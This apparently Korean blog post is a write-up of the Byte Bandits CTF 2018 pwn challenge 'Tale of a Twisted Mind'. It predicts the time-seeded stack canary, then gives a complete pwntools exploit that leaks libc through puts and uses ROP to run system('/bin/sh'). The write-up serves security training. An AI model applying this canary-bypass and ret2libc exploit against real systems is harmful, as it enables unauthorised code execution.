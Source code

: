 ```yaml
---
layout: post
title: [Byte Bandits CTF] Tale of a Twisted Mind Writeup
excerpt_separator: <!--more-->
tags:
  - Write-up
  - CTF
  - ByteBanditsCTF2018
  - MyriaBreak
---
```


Pwn문제를 뭘 풀까 찾다가 2달전에 했던 `Byte Bandits CTF 2018`에서 봤던 문제를 풀어보기로 했다.
`Tale of a Twisted Mind`라는 문제로 CTF 당시에는 Pwnable에 익숙하지 않은지라 풀지 못했으나 지금은 어느정도 개념이 잡혔고, 문제점수 또한 250점으로 난이도가 적당할 거 같아서 풀어보기로 하였다.

<!--more-->

```
We all know how intelligent Layat is... He says that since everyone knows how gcc programs are protected, he set out to protect them by his own secret way.

But Alas! Even the compiler asked "Art Though Dumb?"

nc 34.218.199.37 6000
```

문제는 위와 같고, 바이너리 파일과 라이브러리를 주므로 이걸 분석하면 된다.
당연하지만 현재 서버는 닫혔고, 라이브러리를 주긴했으나 그냥 로컬기준으로 해서 문제를 풀겠다.(물론 LD_PRELOAD로 설정해줘도 되긴하다.)

먼저 `checksec`을 이용해 어떤 보호기법들이 적용되어있는지 살펴보겠다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_01.PNG)  

`32bit`이고 `Canary`와 `NX`가 걸려있어 매우 어려울 것 같은 느낌이다.
아직 뭘 해야할지 잘 모르겠으니, 먼저 실행해보자.
실행하면 아래와 같이 모듈러연산을 하는 식을 던져주는데, 이게 풀어도 풀어도 계속 문제를 준다 ㅡㅡ;

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_02.PNG)  

일단 프로그램의 시작부분이 어떻게 시작하는 지 알았으니 이제 IDA를 사용해 저 부분을 한번 살펴보자.
저 문구 자체는 `String Window`에서 쉽게 찾을 수 있고, 거기서 거슬러 올라가면 이 프로그램의 흐름을 알 수 있다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_03.PNG)  

여기서 사용되고 있고, 사용하고 있는 함수를 찾아보면 `sub_8048867()`에서 찾을 수 있고, 여기서 더 올라가보면 이 함수가 312번 호출되는 것을 알 수 있다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_04.PNG)  
![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_05.PNG)  

그렇다면 저 함수를 312번 호출이 끝나면 무엇이 수행되는지 보자.
아래 그림을 통해 이 프로그램이 대략적으로 어떻게 돌아가는지 표현해보았다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_06.PNG)  

사용자에게 312번의 수식계산(Question)을 시키고, 이를 통과하게 되면 사용자가 원하는 값을 fgets를 통해 `buffer`에 쓸 수 있다.
그런데 여기서 buf에 해당하는 `s`는 `bp-14`의 위치에 있는데, fgets를 통해 `46`의 길이를 읽게되므로 `Buffer Overflow`가 일어나는 것을 알 수 있다.

```
  int v2; // eax@1
  int v3; // eax@2
  int result; // eax@3
  int v5; // eax@6
  int v6; // edx@9
  signed int i; // [sp+4h] [bp-18h]@1
  char s; // [sp+8h] [bp-14h]@8
  int v9; // [sp+18h] [bp-4h]@1
```

그럼 이제 bof를 이용해 함수 흐름을 조작해서 libc_base를 leak하고, 최종적으로는 ROP로 system("/bin/sh")를 수행할 수 있을 것이다!
... 인줄 알았지만 아직 `Canary`가 남아있었다 ...

다시 위에서 정리해놓은 것을 보면 `Canary`는 `sub_8048801()`에 의해 27~29줄에서 다시 설정된다.
그런데 이 `sub_8048801()`이란 함수가 이전에도 많이 쓰이는데... 바로 처음에 사용자에게 던져주는 수식의 난수생성에 쓰인다.

여러번 실행해보면 알겠지만 주어지는 수식의 값이 항상 다르다는 것을 알 수 있는데, IDA를 통해 hexray한 코드를 보면
이 random한 값은 `time(0)`에 의한 결과이다. time(0)의 값이 이 프로그램에서는 C함수에서 srand(seed)의 seed값으로 들어가는 것과 같은 효과가 여기서 나타난다.
그러므로 time(0)이 같다면 항상 같은 난수 생성이 가능하다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_07.PNG)  

time(0)의 값을 설정하고 랜덤한 값을 `312*2`번 뽑고, 한번 더 뽑게되면 우리가 원하는 `Canary`값을 얻을 수 있다.
그럼 이제 어떻게 할까?
Canary값을 구하기 위한 두가지 방법이 있다.

1. 해당 프로그램에서 Random값을 뽑아내는 알고리즘과 같은 알고리즘을 쓰는 소스를 구현한다.
2. 바이너리 code patch를 통해 우리가 원하는 Canary값을 출력하게 한다.

여기서는 후자, code patch를 이용해서 Canary값을 출력하는 방법을 사용하겠다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_08.PNG)  

위에서 Canary값을 설정하는 코드를 보면 Canary값을 설정한 후, bss영역(전역변수)의 dword_804AA28에 저장하게되는데
이 부분을 puts을 통해 출력하게 patch한다면 우리가 원하는 Canary값이 puts를 통해 출력될 것이다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_09.PNG)

자! 이제 원본파일인 `twisted`와 Canary를 출력하게 patch한 `twisted_modipy`를 동시에 실행한다면
time(0)의 값을 같으므로 같은 난수생성을 하게 되고, 같은 Canary값을 가질 것이다. 
이 때 우리는 `twisted_modipy`를 통해 Canary값을 얻을 수 있으므로, `twisted`에서 bof를 성공적으로 일으킬수 있다.

그럼 이제 코드짜는 일만 남았다..
계획은 일단 아래와 같다.

1. 먼저 puts.plt로 리턴하여 puts.got를 인자로 넣어 `puts_addr`을 구한다.
2. 위에서 구한 puts_addr을 이용해서 `libc_base`를 구한다.
3. `libc_base`를 통해 system함수와 "/bin/sh"의 주소를 구한다.
4. `system("/bin/sh")`를 실행한다.

급마무리하는 느낌이 있지만, 익스코드는 아래와 같다.

```
from pwn import *
import string

#context.log_level = 'debug'

elf = ELF("./twisted")
libc = ELF("/lib/i386-linux-gnu/libc.so.6")

conn = process("./twisted", env={"LD_PRELOAD":"libc.so.6"})
patched = process("./twisted_modify", env={"LD_PRELOAD":"libc.so.6"})

for i in range(0,312):
	Equation = conn.recvuntil("=")
	patched_Equation = patched.recvuntil("=")
	patched.recvline()
	conn.recvline()
	if not (Equation == patched_Equation):
		break
	op1, op2 = Equation[:-1].split("%")
	result = int(op1) % int(op2)
	conn.sendline(str(result))
	patched.sendline(str(result))

patched.recvline()
canary = patched.recv(4)
patched.close()
print("")

log.info("canary : 0x%x\n" % u32(canary))

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

fgets_sbuf = 0x8048979
bss = 0x804A800

payload  = "A"*16
payload += canary
payload += p32(bss)	# ebp
payload += p32(puts_plt)
payload += p32(fgets_sbuf)
payload += p32(puts_got)

conn.recvuntil(":")
conn.send("a")	## getchar != '\n'
conn.sendline(payload)

conn.recvline()
puts_addr = conn.recv(4)
puts_sym = libc.symbols['puts']

libc_base = u32(puts_addr)-puts_sym
system_offset = 0x40310
bin_sh_offset = 0x162d4c
system_addr = libc_base + system_offset
bin_sh_addr = libc_base + bin_sh_offset

log.info("base_libc   : 0x%x" % libc_base)
log.info("puts_addr   : 0x%x" % u32(puts_addr))
log.info("system_addr : 0x%x" % system_addr)
log.info("bin_sh_addr : 0x%x" % bin_sh_addr)

payload  = "A"*16
payload += canary
payload += p32(bss)	# ebp
payload += p32(system_addr)
payload += "BBBB"
payload += p32(bin_sh_addr)

conn.sendline(payload)
conn.interactive()

```

위 파이썬 익스코드를 실행하면 Shell을 획득할 수 있다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_10.PNG)  

### *후기

재미있는 문제였다. 일단 seed값을 똑같이 설정해서 같은 랜덤값을 얻는 문제를 실제로 풀어본 것이 처음이였다.
뭐... 그 만큼 삽질을 많이해서 굉장히 시간을 많이 잡아먹었지만 ㅡㅡ;
일단 `while(getchar() == 10) ;` 부분이 당연히 버퍼를 비워주기 위한 코드인줄 알아서 익스할때 익스가 제대로 되지않아서 많은 시간을 잡아먹었고,
최근에 execve() 함수 안에 "/bin/sh"를 호출해주는 부분으로 바로 뛰어 쉘을 한방에 띄울 수 있다는 `oneshot gadget`이란 것을 알게 되어 이 원샷가젯을 사용하려다가 굉장히 많은 시간을 잡아먹었다.
일단 원샷가젯에 대한 결론을 말하자면... 32bit 바이너리라서 원샷가젯이 안먹힌다;; 64bit에서는 정상적으로 사용가능하므로 64bit 익스에만 사용하도록 하자.

그래도 삽질한 만큼 많은 걸 배운것 같다. 이상 마무리~
